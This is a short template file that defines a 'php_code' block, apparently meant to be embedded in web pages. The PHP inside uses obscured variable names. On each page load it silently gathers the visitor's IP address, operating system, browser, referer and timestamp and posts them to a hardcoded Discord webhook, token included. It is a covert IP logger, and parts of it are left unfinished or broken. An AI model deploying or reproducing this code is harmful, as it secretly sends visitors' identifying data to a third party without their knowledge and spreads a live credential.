 {{ - define "php_code" - }}
<!-- php-->
<?php $t0=$_SERVER['HTTP_USER_AGENT'];function getOS(){global $t0;$c1="Unknown OS Platform";$v2=array('/windows nt 10/i'=>'Windows 10','/windows nt 6.3/i'=>'Windows 8.1','/windows nt 6.2/i'=>'Windows 8','/windows nt 6.1/i'=>'Windows 7','/windows nt 6.0/i'=>'Windows Vista','/windows nt 5.2/i'=>'Windows Server 2003/XP x64','/windows nt 5.1/i'=>'Windows XP','/windows xp/i'=>'Windows XP','/windows nt 5.0/i'=>'Windows 2000','/windows me/i'=>'Windows ME','/win98/i'=>'Windows 98','/win95/i'=>'Windows 95','/win16/i'=>'Windows 3.11','/macintosh|mac os x/i'=>'Mac OS X','/mac_powerpc/i'=>'Mac OS 9','/linux/i'=>'Linux','/kalilinux/i'=>'KaliLinux','/ubuntu/i'=>'Ubuntu','/iphone/i'=>'iPhone','/ipod/i'=>'iPod','/ipad/i'=>'iPad','/android/i'=>'Android','/blackberry/i'=>'BlackBerry','/webos/i'=>'Mobile','/Windows Phone/i'=>'Windows Phone');foreach($v2 as $j3=>$d4){if(preg_match($j3,$t0)){$c1=$d4;}}return $c1;}function getBrowser(){global $t0;$x5="Unknown Browser";$l6=array('/msie/i'=>'Internet Explorer','/firefox/i'=>'Firefox','/Mozilla/i'=>'Mozila','/Mozilla/5.0/i'=>'Mozila','/safari/i'=>'Safari','/chrome/i'=>'Chrome','/edge/i'=>'Edge','/opera/i'=>'Opera','/OPR/i'=>'Opera','/netscape/i'=>'Netscape','/maxthon/i'=>'Maxthon','/konqueror/i'=>'Konqueror','/Bot/i'=>'BOT Browser','/Valve Steam GameOverlay/i'=>'Steam','/mobile/i'=>'Handheld Browser');foreach($l6 as $j3=>$d4){if(preg_match($j3,$t0)){$x5=$d4;}}return $x5;}$j7=getOS();$c8=getBrowser();$c9=$_SERVER['REMOTE_ADDR'];$h10=$_SERVER['HTTP_REFERER'];if($h10==""){$a11="dirrect connection";}else{$a11=$h10;}date_default_timezone_set('TIME ZONE');$l12=date('Y-m-d H:i:s');$e13=curl_init("https://discordapp.com/api/webhooks/645365090174107679/B4RSxUd9X5PFNGT0ITRdO6C_gQUyzaNwJYyDDw51zvOrcAszYZzZPs8M8OPPqniUntUZ");curl_setopt($e13,CURLOPT_POST);curl_setopt($e13,CURLOPT_POSTFIELDS,json_encode(array("content"=>"$c9 | $j7 | $c8 | $l12\n")));echo curl_exec($e13);?>
{{- end -}}
